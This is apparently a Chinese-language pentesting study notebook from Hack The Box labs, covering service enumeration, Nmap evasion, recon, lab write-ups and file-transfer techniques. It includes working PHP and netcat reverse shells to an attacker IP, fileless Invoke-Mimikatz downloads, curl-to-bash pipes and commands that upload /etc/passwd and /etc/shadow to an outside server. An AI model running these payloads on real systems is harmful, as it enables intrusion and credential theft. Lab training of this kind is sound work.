




# 一、基础服务

## 1.1 SMB

```
nmap --script smb-os-discovery.nse -p445 10.129.181.147


smbclient -N -L \\\\10.129.42.253
smbclient \\\\10.129.181.147\\users #以guest身份登录
smbclient -U bob \\\\10.129.42.253\\users #使用bob用户登录 ls cd get都可用
!ls #smb上执行
smbstatus # 系统上执行


rpcclient -U "" 10.129.14.128
srvinfo
enumdomains
querydominfo
netshareenumall
netsharegetinfo notes
enumdomusers
queryuser 0x3e9
querygroup 0x201
for i in $(seq 500 1100);do rpcclient -N -U "" 10.129.14.128 -c "queryuser 0x$(printf '%x\n' $i)" | grep "User Name\|user_rid\|group_rid" && echo "";done #暴力破解rid
samrdump.py 10.129.14.128
smbmap -H 10.129.14.128
crackmapexec smb 10.129.14.128 --shares -u '' -p ''


git clone https://github.com/cddmp/enum4linux-ng.git
./enum4linux-ng.py 10.129.14.128 -A
```

## 1.2 SNMP

在 SNMP 版本 1 和 2c 中，使用纯文本社区字符串控制访问，如果我们知道名称，就可以访问它。加密和身份验证仅在 SNMP 版本 3 中添加。

```
snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0
snmpwalk -v 2c -c private  10.129.42.253 #查询名称找Nday
onesixtyone -c dict.txt 10.129.42.254
```

## 1.3 FTP

```
cat /etc/ftpusers
find / -type f -name ftp* 2>/dev/null | grep scripts #nmap
```

以下服务的利用可以用于查找服务的配置，找到弱配置。TFTP 与 FTP 不同，它不需要用户的身份验证。它不支持通过密码进行受保护的登录，并且仅根据作系统中文件的读写权限设置访问限制。与 FTP 客户端不同，`TFTP` 没有目录列表功能。

FTP是tcp协议，有主动模式和被动模式，21端口是控制端口，一定会有，20端口（数据）是主动模式会打开，被动模式一般FTP服务器会开放其他的高位端口等待连接。


## 1.4 NFS

```
sudo nmap 10.129.14.128 -p111,2049 -sV -sC
sudo nmap --script nfs* 10.129.14.128 -sV -p111,2049
showmount -e 10.129.14.128 #显示可用的共享目录
mkdir target-NFS
sudo mount -t nfs 10.129.14.128:/ ./target-NFS/ -o nolock
cd target-NFS
tree .

ls -l mnt/nfs/
ls -n mnt/nfs/

sudo umount ./target-NFS
```

## 1.5 DNS

```
for sub in $(cat /opt/useful/seclists/Discovery/DNS/subdomains-top1million-110000.txt);do dig $sub.inlanefreight.htb @10.129.14.128 | grep -v ';\|SOA' | sed -r '/^\s*$/d' | grep $sub | tee -a subdomains.txt;done#子域暴力破解
dnsenum --dnsserver 10.129.14.128 --enum -p 0 -s 0 -o subdomains.txt -f /opt/useful/seclists/Discovery/DNS/subdomains-top1million-110000.txt inlanefreight.htb
```

```
dig @1.1.1.1 domain.com #表示使用1.1.1.1这个域名服务器进行查询
```


### 1.5.1 Record DNS

**A:**结果返回所请求域的 IPv4 地址。

**AAAA:**返回所请求域的 IPv6 地址。

**MX:**返回负责的邮件服务器作为结果。

**NS:**返回域的 DNS 服务器（名称服务器），告诉 DNS 查询系统 **该域名的解析应该通过哪个服务器来处理**。

```
dig ns inlanefreight.htb @10.129.14.128
```

**TXT:**此记录可以包含各种信息。例如，可以使用全能工具来验证 Google Search Console 或验证 SSL 证书。此外，还设置了 SPF 和 DMARC 条目来验证邮件流量并保护其免受垃圾邮件的侵害。

```
dig CH TXT version.bind 10.129.120.85
```

**CNAME:**此记录用作另一个域名的别名。如果您希望域 www.hackthebox.eu 指向与 hackthebox.eu 相同的 IP，则可以为 hackthebox.eu 创建一个 A 记录，为 www.hackthebox.eu 创建一个 CNAME 记录。

**PTR:**PTR 记录的工作方式正好相反（反向查找）。它将 IP 地址转换为有效的域名。

**SOA:**提供有关管理联系人的相应 DNS 区域和电子邮件地址的信息。

```
dig soa www.inlanefreight.com
```

```shell-session
dig any inlanefreight.htb @10.129.14.128
```

```shell-session
dig axfr inlanefreight.htb @10.129.14.128 区域传输
```

### 1.5.2 DNS将域名转换为ip的路径

1、看本地缓存

2、看根解析器，全球有 13 个根服务器

3、看顶级域名解析器，例如，.com、.org

4、看权威域名解析器 —返回ip，它的作用是保存域的实际 IP 地址的服务器，通常由托管服务提供商或域注册商管理。

## 1.6 SMTP

```
smtp-user-enum -M VRFY -U /usr/share/seclists/Discovery/SNMP/snmp.txt -t 10.129.145.179 -w 15
```

## 1.7 IMAP/POP3

110和995(加密)用于pop3

143和993(加密)用于imap

```
nmap 10.129.134.32 -sV -p110,143,993,995 -sC
curl -k 'imaps://10.129.134.32' --user robin：robin
curl -k 'imaps://10.129.134.32' --user robin：robin -v
openssl s_client -connect 10.129.134.32:pop3s
openssl s_client -connect 10.129.134.32:imaps
robin：robin
```

imap支持用户列举，但pop3不支持。

## 1.8 SNMP

161端口发送控制指令

SNMPv1 `没有内置的身份验证`机制，SNMPv2 存在于不同的版本中。今天仍然存在的版本是 `v2c`，扩展名 `c` 表示基于社区的 SNMP。

```
snmpwalk -v2c -c public 10.129.14.128
```

## 1.9 Oracle

1521端口

```
nmap -p1521 -sV 10.129.180.180 --open --script oracle-sid-brute

###############安装odat和sqlplus
#!/bin/bash

sudo apt-get install libaio1 python3-dev alien -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
git submodule update
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
export LD_LIBRARY_PATH=instantclient_21_12:$LD_LIBRARY_PATH
export PATH=$LD_LIBRARY_PATH:$PATH
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor passlib python-libnmap
sudo apt-get install build-essential libgmp-dev -y
pip3 install pycryptodome

```

## 1.10 IPMI

IPMI 通过端口 623 UDP 进行通信。

```
nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local


use auxiliary/scanner/ipmi/ipmi_version 
set rhosts 10.129.42.195
run
```

Dell iDRAC :root :calvin

HP iLO: Administrator: 由数字和大写字母组成的随机 8 个字符的字符串

```
该命令 hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u 会尝试所有大写字母和数字的组合来获得 8 个字符的密码。
```

```
use auxiliary/scanner/ipmi/ipmi_dumphashes 
set rhosts 10.129.179.34
run
hashcat -m 7300 -a 0 -o found.txt hash.txt  /usr/share/wordlists/rockyou.txt

```

git push：

```bash
cd /path/to/your/notes
git init

git remote add origin <your_remote_repository_url>

git add .
git commit -m "Initial commit with notes"
git push -u origin master

git add .
git commit -m "Your commit message"
git push origin master
```

## 1.11 SSH

```
 2016 年 OpenSSH 7.2p1 版本中的命令注入漏洞
 sed -r '/^\s*$/d' 含义是删除空白行，/^\s*$/d这个是匹配完全为空白的行
 grep -v "#" 含义是排除掉注释行
```

工具git clone https://github.com/jtesta/ssh-audit.git && cd ssh-audit

Rsync允许通过SSH进行安全的数据传输，默认端口是873

r-services，比如rcp、rexec、rsh等。默认端口是512，513，514，一些内网的机器可能会有。

## 1.12 RDP

可以通过多种方式进行身份验证和连接到此类 RDP 服务器。例如，我们可以使用 `xfreerdp`、`rdesktop` 或 `Remmina` 连接到 Linux 上的 RDP 服务器，并相应地与服务器的 GUI 进行交互。

```
xfreerdp /u:cry0l1t3 /p:"P455w0rd!" /v:10.129.201.248
```

WinRM 依靠 `TCP` 端口 `5985` 和 `5986` 进行通信，最后一个端口 `5986 使用 HTTPS`

WMI 通信的初始化始终在 `TCP` 端口 `135` 上进行，成功建立连接后，通信将移动到随机端口。

# 二、Shell

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.113 9443 >/tmp/f"); ?>
```

```shell-session
gobuster dir -u http://10.129.73.163/ --wordlist /usr/share/seclists/Discovery/Web-Content/common.txt
curl http://10.129.91.93/nibbleblog/README
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.113 8443 >/tmp/f' | tee -a monitor.sh /usr/bin/php
python3 -c 'import pty; pty.spawn("/bin/bash")'
sudo php -r '$sock=fsockopen("10.10.14.113",8443);exec("/bin/sh -i <&3 >&3 2>&3");'
```

# 三、信息收集

## 3.1 Nmap

```
sudo nmap 10.129.2.0/24 -sn -oA tnet | grep for | cut -d" " -f5
sudo nmap 10.129.2.28 -p 21 --packet-trace -Pn -n --disable-arp-ping #可以根据TTL推断系统
xsltproc target.xml -o target.html #比较直观好看
nc -nv 10.129.2.28 25#会显示系统类型
nmap 10.129.2.28 -p 80 -sV --script vuln #漏洞检测
sudo nmap 10.129.2.28 -p 80 -sS -Pn -n --disable-arp-ping --packet-trace -D RND:5 #使用诱饵
sS SYN;sA ACK;sT Connect，sS容易被过滤，sA不容易被过滤

#####规避防火墙
sudo nmap 10.129.2.28 -p50000 -sS -Pn -n --disable-arp-ping --packet-trace --source-port 53
nmap -sU -p 53 --script dns-nsid,banner -Pn -n -disable-arp-ping -sV 10.129.2.48
1)nmap x.x.x.x -sS -Pn -n --source-port 53
2)nmap x.x.x.x -sT -Pn -n --source-port 53 -D RND:5
nmap x.x.x.x -sT -pn -n --source-port 53 -D RND:5 -p 53 -sV
3)nmap x.x.x.x -sS -Pn -n --source-port 53 -D RND:5
nmap x.x.x.x -sT -pn -n --source-port 5000 -D RND:5 -p 53 -sV
ncat -nv --source-port 53 10.129.102.234 5000
nmap -sS -A -T2 --data-length 1400 #分片绕过防火墙
```

```
其他扫描软件
rustscan -b 500 -t 4000 -a x.x.x.x --range 1-65535
fscan -h x.x.x.x -p 1-65535
scaninfo -i x.x.x.x -p 1-65535
```

## 3.2 子域名收集

```
curl -s https://crt.sh/\?q\=inlanefreight.com\&output\=json | jq .#以json格式输出

curl -s https://crt.sh/\?q\=inlanefreight.com\&output\=json | jq . | grep name | cut -d":" -f2 | grep -v "CN=" | cut -d'"' -f2 | awk '{gsub(/\\n/,"\n");}1;' | sort -u#按唯一子域对它们进行筛选
```

### 3.2.1 子域名枚举

#### 3.2.1.1 主动枚举

##### 暴力破解

```
dnsenum --enum inlanefreight.com -f /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -r #-r是递归的意思
```

##### Virtual Hosts

核心是 Web 服务器能够区分共享同一 IP 地址的多个网站或应用程序。这是通过利用 `HTTP Host` 标头实现的。

网站通常具有非公开的子域，并且不会显示在 DNS 记录中。这些`子域`只能在内部或通过特定配置访问。`VHost 模糊测试`是一种通过针对已知 IP 地址测试各种主机名来发现公有和非公有`子域`和 `VHost` 的技术。

虚拟主机提供的几种形式：

1.基于名称的虚拟主机，多个网站绑定一个ip。

2.基于ip的虚拟主机，不同网站不同ip。

3.基于端口的虚拟主机，不同网站同一ip不同端口。

**host碰撞**

```
vim /etc/hosts 填写ip和主域名
```

```
gobuster vhost -u http://域名:38644 -w <wordlist_file> --append-domain -t 50 -k(忽略TLS证书错误)
```

#### 3.2.1.2 被动枚举

##### DNS区域传输

```
dig axfr @ns服务器地址 域名
```

## 3.3 证书查找

```shell-session
curl -s "https://crt.sh/?q=facebook.com&output=json" | jq -r '.[]
 | select(.name_value | contains("dev")) | .name_value' | sort -u
```

## 3.4 搜索引擎信息侦察

```
site:example.com
inurl:login
filetype:pdf
intitle:"confidential report"
intext:"password reset"
cache:example.com
link:example.com
related:example.com
info:example.com
define:phishing
site:example.com numrange:1000-2000	
allintext:admin password reset
allinurl:admin panel
allintitle:confidential report 2023	
site:example.com AND (inurl:admin OR inurl:login)
"linux" OR "ubuntu" OR "debian"
site:bank.com NOT inurl:login
site:socialnetwork.com filetype:pdf user* manual
site:ecommerce.com "price" 100..500
"information security policy"
site:news.com -inurl:sports
site:example.com inurl:login
site:example.com (inurl:login OR inurl:admin)
site:example.com filetype:pdf
site:example.com (filetype:xls OR filetype:docx)
site:example.com inurl:config.php
site:example.com (ext:conf OR ext:cnf)
site:example.com (ext:conf OR ext:cnf)
site:example.com inurl:backup
site:example.com filetype:sql
```

## 3.5 爬行

```
wget -O ReconSpider.zip https://academy.hackthebox.com/storage/modules/144/ReconSpider.v1.2.zip
unzip ReconSpider.zip
pip3 install scrapy
python3 ReconSpider.py http://inlanefreight.com
```


# writeup

## footprinter lab easy ——ftp获取ssh密钥

```
nmap -p- 10.129.180.203 -T4
```


```
nmap -p 21,22,53,2121 -sCV -A -O 10.129.180.203  
```


```
ftp 10.129.180.203 2121
ls -al
```


```
cd .ssh
get id_rsa
chmod 600 id_rsa
ssh ceil@10.129.180.203 -i id_rsa
```


## footprinter lab medium——NFS+SMB+密码复用

```
nmap 10.129.202.41 #扫描主机常见的1000个端口
```


```
nmap -p 111,135,139,445,2049,3389 -sCV -A -O 10.129.202.41  
```


```
showmount -e 10.129.202.41
```


```
mkdir targer-NFS
mount  -t nfs 10.129.202.41:/TechSupport ./targer-NFS/ -o nolock
cd ./targer-NFS/
ls -al
```


```
cat ticket4238791283782.txt
```


```
killall openvpn #先把所有vpn杀掉
xfreerdp /v:10.129.2.9 /u:alex /p:'lol123!mD' /cert:ignore /d:WINMEDIUM /dynamic-resolution
```

```
crackmapexec smb 10.129.141.255 --shares -u 'alex' -p 'lol123!mD' -d 'WINMEDIUM'
smbclient -U alex \\\\10.129.141.255\\devshare
```

```
xfreerdp /timeout:60000 /v:10.129.141.255 /u:Administrator /p:'87N1ns@slls83' /cert:ignore /d:WINMEDIUM /dynamic-resolution
```


## footprinter lab hard

```
nmap -Pn -sC -sV 10.129.202.20 -oA target
```

```
map --top-port 100 -sV -sU 10.129.202.20
```

```
onesixtyone -c /usr/share/SecLists/Discovery/SNMP/snmp.txt 10.129.202.20
```

```
snmpwalk -v2c -c backup 10.129.210.77
```

```
openssl s_client -connect 10.129.210.77:imaps
1 LOGIN tom {password}
1 LIST "" *
1 LIST INBOX
1 SELECT 1 BODY[]
```

```
ssh -i id_rsa tom@10.129.210.77

```

```
mysql -u tom -p
show databses;
use users
show tables;
select * from users where username = 'HTB';
```

## Skills Assessment  writeup


```
nano /etc/hosts
94.237.49.101 inlanefreight.htb
```

```
###solution 1
whois inlanefreight.htb
###solution 2
nmap -p 53231 -sV 94.237.49.101
###solution 3
gobuster vhost -u http://web1337.inlanefreight.htb:31591 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain -t 50 -k
```


# 钓鱼邮件甄别

whois 注册时间近期、隐藏注册者身份、名称服务器通常与已知恶意服务提供商相关联。

# CVSS

## 1. 5个因素

### 1.1 Damage Potential

### 1.2 Reproducibility

### 1.3 Exploitability

可利用性衡量包括访问向量、访问复杂性和身份验证。

使用以下指标评估利用问题所需的技术手段的方法：

攻击向量

攻击复杂性

所需权限

用户交互

### 1.4 Affected Users

影响指标由CIA 三元组组成，包括机密性、完整性和可用性。

**机密性影响**与保护信息和确保只有授权的个人才能访问有关，例如，高严重性值与攻击者窃取密码或加密密钥的情况有关，低严重性值与攻击者获取的信息可能不是组织的重要资产有关。

**完整性影响**与未更改或篡改信息以保持准确性有关。例如，高严重性是指攻击者修改了组织环境中的关键业务文件。低严重性值是指攻击者无法专门控制已更改或修改的文件的数量。

**可用性影响**与根据业务要求轻松获取信息有关。例如，如果攻击者导致环境对业务完全不可用，则该值较高。如果攻击者无法完全拒绝对业务资产的访问，并且用户仍然可以访问某些组织资产，则该值较低。

### 1.5 Discoverability

# 四、Astaroth attack

The `Astaroth attack` generally followed these steps: A malicious link in a spear-phishing email led to an LNK file. When double-clicked, the LNK file caused the execution of the [WMIC tool](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmic) with the "/Format" parameter, which allowed the download and execution of malicious JavaScript code. The JavaScript code, in turn, downloads payloads by abusing the [Bitsadmin tool](https://docs.microsoft.com/en-us/windows/win32/bits/bitsadmin-tool).

All the payloads were base64-encoded and decoded using the Certutil tool resulting in a few DLL files. The [regsvr32](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/regsvr32) tool was then used to load one of the decoded DLLs, which decrypted and loaded other files until the final payload, Astaroth, was injected into the `Userinit` process.


# 五、文件传输

## 5.1 windows文件传输

### 5.1.1 powershell

```
1.md5sum id_rsa
2.cat id_rsa | base64 -w 0;echo #-w 0的意思是只创建一行
echo -n 'base64内容' | base64 -d > id_rsa #解码
3.[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("xxx以上内容"))
4.Get-FileHash C:\Users\Public\id_rsa -Algorithm md5 #hash校验
############################文件下载
5.(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
6.(New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerViewAsync.ps1')
###########################无文件方法
7.IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
8.(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
可以使用参数 -UseBasicParseing 来绕过
9.[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```

PowerShell doesn't have a built-in function for upload operations, but we can use `Invoke-WebRequest` or `Invoke-RestMethod` to build our upload function. 

```
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')#上传文件
```

### 5.1.2 SMB

```
impacket-smbserver share -smb2support /tmp/smbshare #创建SMB服务器
impacket-smbserver share -smb2support /tmp/smbshare -user test -password test #创建用户密码
copy \\x.x.x.x\share\nc.exe #从SMB服务器复制文件
net use n: \\192.168.220.133\share /user:test test#使用用户名和密码挂载SMB服务器
```

### 5.1.3 FTP

```
pip3 install pyftpdlib #默认情况下，使用端口2121
python3 -m pyftpdlib --port 21
```

## 5.2 linux文件传输

### 5.2.1 wget

```
wget https://xxx./s -O ssx.
```

### 5.2.2 curl

```
curl https://xxx./s -o ssx.
```

### 5.2.3 使用无文件攻击

利用管道，但也可能会留下临时文件

```
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

### 5.2.4 使用bash下载

```
exec 3<>/dev/tcp/10.10.10.32/80 #连接到服务器
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3 #HTTP GET请求
cat <&3 #打印响应
```

### 5.2.5 SSH

```
scp plaintext@192.168.49.128:/root/myroot.txt . #下载
scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/ #上传
```

上传文件到web服务器

```shell-session
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

不同语言开启简单web服务器的方法

python

```
python3 -m pip install --user uploadserver
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server' #创建自签名证书
python3 -m uploadserver 443 --server-certificate ~/server.pem

python3 -m http.server
python2.7 -m SimpleHTTPServer
```

php

```
php -S 0.0.0.0:8000
```

ruby

```
ruby -run -ehttpd . -p8000
```

## 5.3 使用代码传输文件

**python2下载**

```
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

**python3下载**

```
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

[ 根据 W3Techs 的数据 ](https://w3techs.com/technologies/details/pl-php)，77.4% 的网站都使用 PHP

**python3上传**

```
python3 -m uploader #启用upload模块
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

**php使用File_get_contents（） 下载** 

```shell-session
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

`file_get_contents（）` 和 `file_put_contents（）` 的替代方案是 [fopen（） 模块](https://www.php.net/manual/en/function.fopen.php)

**php使用fopen（） 下载** 

```shell-session
php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

**PHP 下载文件并将其通过管道传输到 Bash**

```shell-session
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

**Ruby下载文件**

```
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

**Perl 下载文件**

```shell-session
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

**JavaScript**

创建一个名为wget.js的文件

```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

```cmd-session
cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

**VBscript**

```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

```cmd-session
cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

## 5.4 使用其他方式传输文件

### 5.4.1 nc/netcat/ncat

（1)**反向连接：**被攻击机，侦听端口8000

```
nc -l -p 8000 > SharpKatz.exe
或ncat -l -p 8000 --recv-only > SharpKatz.exe
```

攻击机，传输文件

```
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
或ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```


如果防火墙限制了入站，不适用。

有一个小技巧 history不记录历史命令，【不是指~/.bash_history】可以在输入命令的时候前面加一个空格


2）**正向连接**：攻击机

```
nc -l -p 8000 < SharpKatz.exe
或sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

被攻击机

```
nc 192.168.49.128 443 > SharpKatz.exe
或ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

3）如果没有nc，**利用bash**

正向连接，被攻击机

```
cat </dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

### 5.4.2 powershell

如果HTTP、HTTPS、SMB不可用，可以尝试WinRM。

确认 WinRM 端口 TCP 5985 在 DATABASE01 上打开

```
Test-NetConnection -ComputerName DATABASE01 -Port 5985
```

创建 PowerShell 远程处理会话以 DATABASE01

```
$Session = New-PSSession -ComputerName DATABASE01 
```

```
Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

```
Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```


### 5.4.3 rdp

使用 rdesktop 挂载 Linux 文件夹

```shell-session
rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

使用 xfreerdp 挂载 Linux 文件夹

```
xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

## 5.5 通过HTTP/S捕获文件

为文件上传操作创建安全的web服务器

### Nginx

```shell-session
mkdir -p /var/www/uploads/SecretUploadDirectory
chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory
```

创建配置文件 /etc/nginx/sites-available/upload.conf：

```shell-session
server {
    listen 9001;
    
    location /SecretUploadDirectory/ {
        root    /var/www/uploads;
        dav_methods PUT;
    }
}
```

```shell-session
ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/
systemctl restart nginx.service
```

错误日志/var/log/nginx/error.log，默认启用在80端口

```
rm /etc/nginx/sites-enabled/default
```

```
curl -T /etc/passwd http://localhost:9001/SecretUploadDirectory/users.txt
```

## 5.6 二进制文件

```
certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
```

```
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
